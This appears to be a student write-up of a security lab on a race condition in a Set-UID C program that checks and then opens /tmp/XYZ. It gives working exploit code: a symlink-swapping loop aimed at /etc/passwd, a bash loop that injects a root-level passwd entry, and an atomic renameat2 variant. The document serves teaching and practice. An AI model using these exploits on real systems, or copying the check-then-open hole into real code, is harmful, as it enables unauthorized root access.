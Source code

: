 ## Task 2: Launching the Race Condition Attack

The objective for this task is to gain root privilege by exploiting the race condition vulnerability in this **SET-UID program**:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main()
{
    char* fn = "/tmp/XYZ";
    char buffer[60];
    FILE* fp;

    /* get user input */
    scanf("%50s", buffer);

    if (!access(fn, W_OK)) {
        fp = fopen(fn, "a+");
        if (!fp) {
            perror("Open failed");
            exit(1);
        }
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    } else {
        printf("No permission \n");
    }

    return 0;
}

```

The critical factor in making this attack work is to point */tmp/XYZ* to the password file between the *access* and the *fopen* calls.

### Task 2.A: Simulating a Slow Machine


- In this first attempt we will exploit the race condition vulnerability by simulating a slow machine. We can do that by adding this instruction:

```
sleep(10)
```


vul.c will look like this:

```
if (!access(fn, W_OK)) {
    sleep(10);
    fp = fopen(fn, "a+");
...
```

This will give us a 10 second window to manually do something that results on the program adding a root account to the system.

To achieve this we will create a */tmp/XYZ* file, run the program with the input that we need and link the file created to the password file:


![execute vulp](Screenshots/executeVulp.png)

![create link](Screenshots/symbLink.png)

After this we successfully obtained root privilege:

![result](Screenshots/resultA.png)

### Task 2.B: The Real Attack

In this task the objective is to launch the real attack without "cheating", in this case without slowing down the vulnerable program.

To achieve this we need to write an attack program to run in parallel to the target program and hope to hit the race condition window once.

Our C attack program that removes and adds a symbolic link pointing to the */etc/passwd* file from the */tmp/XYZ* file looks like this:

```c
#include <unistd.h>
int main() {

	/*
	Run Infinite loop to try to catch the race condition 
	window
	*/
	while(1) {
		unlink("/tmp/XYZ");
		symlink("/etc/passwd","/tmp/XYZ");
	}
	
	
	return 0;
	
}
```

To make this a successful attack we need to run the vulnerable program many times.

So according to the lab guide we may run the following shell script to run *vulp* in a loop, with the input that we want, in this case *test:U6aMy0wojraho:0:0:test:/root:/bin/bash* given by the *echo* command.

```bash
#!/bin/bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
    echo "test:U6aMy0wojraho:0:0:test:/root:/bin/bash" | ./vulp
    new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```
We can now run both programs and monitor our results from the attack and see if it is successful.

After some attempts at executing we finally reached the objective and achieved root privilege:

![result](Screenshots/resultB.png)

It took some time to reach our goal since we had to manually remove */tmp/XYZ* file all the previous attempts because it gained root ownership and we couldn't execute the attack successfully that way.

### Task 2.C: An Improved Attack Method

In the previous task most of our attempts didn't work because our attack program, running with no root privilege could not make changes to the root owned */tmp/XYZ* file.

Using *unlink()* and *symlink()* approach gave us a race condition in our attack program which was exploited by the target program.

We can solve this issue by making *unlink()* and *symlink()* atomic.

According to the lab guide now our attack program should look like this:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
int main() {
	unsigned int flags = RENAME_EXCHANGE;
	unlink("/tmp/XYZ"); symlink("/dev/null", "/tmp/XYZ");
	unlink("/tmp/ABC"); symlink("/etc/passwd", "/tmp/ABC");
	while(1) {
		renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", flags);
	}
	return 0;
}
```

After performing this time the attack with this new strategy, we can see that it succeeds without problems:

![result](Screenshots/resultC.png)













